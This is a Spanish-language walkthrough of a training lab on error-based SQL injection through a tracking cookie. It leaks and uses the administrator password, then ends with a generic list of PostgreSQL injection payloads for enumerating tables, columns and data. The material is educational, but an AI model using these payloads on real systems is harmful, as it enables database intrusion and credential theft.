


    
`TrackingId=ogAZZfxtOKUELbuJ'`
    
- En la respuesta, observe el mensaje de error detallado. Esto revela la consulta SQL completa, incluido el valor de su cookie. También explica que tiene un literal de cadena sin cerrar. Observe que su inyección aparece dentro de una cadena entre comillas simples.

En la solicitud, agregue caracteres de comentario para comentar el resto de la consulta, incluido el carácter de comilla simple adicional que está causando el error:

`TrackingId=ogAZZfxtOKUELbuJ'--`

Envíe la solicitud. Confirme que ya no recibe ningún error. Esto indica que la consulta ahora es sintácticamente válida.

-  Adapte la consulta para incluir una `SELECT`subconsulta genérica y convierta el valor devuelto a un `int`tipo de datos:

`TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--`

Envíe la solicitud. Observe que ahora recibe un error diferente que indica que una `AND` condición debe ser una expresión booleana.

- Modifique la condición según corresponda. Por ejemplo, puede simplemente agregar un operador de comparación ( `=`) de la siguiente manera:

`TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--`

Envíe la solicitud. Confirme que ya no recibe ningún error. Esto sugiere que se trata nuevamente de una consulta válida.

 - Adapte su `SELECT`declaración genérica para que recupere los nombres de usuario de la base de datos:
 
 `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--`

Observa que vuelves a recibir el mensaje de error inicial. Observa que ahora tu consulta parece estar truncada debido a un límite de caracteres. Como resultado, los caracteres de comentario que agregaste para corregir la consulta no se incluyen.

- Borre el valor original de la `TrackingId`cookie para liberar algunos caracteres adicionales. Reenvíe la solicitud.
   
`TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`
Observe que recibe un nuevo mensaje de error, que parece generado por la base de datos. Esto sugiere que la consulta se ejecutó correctamente, pero sigue recibiendo un error porque inesperadamente devolvió más de una fila.

- Modifique la consulta para que devuelva solo una fila:

`TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`

Envíe la solicitud. Observe que el mensaje de error ahora filtra el primer nombre de usuario de la `users`tabla:

`ERROR: invalid input syntax for type integer: "administrator"`

- Ahora que sabe que `administrator`es el primer usuario de la tabla, modifique la consulta una vez más para filtrar su contraseña:

`TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

Inicie sesión `administrator`usando la contraseña robada para resolver el laboratorio.






```c
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)

,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--

,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--

,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1

' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1

' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1

' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1

' and 1=cast((SELECT data_column FROM data_table LIMIT 1) as int) --
```

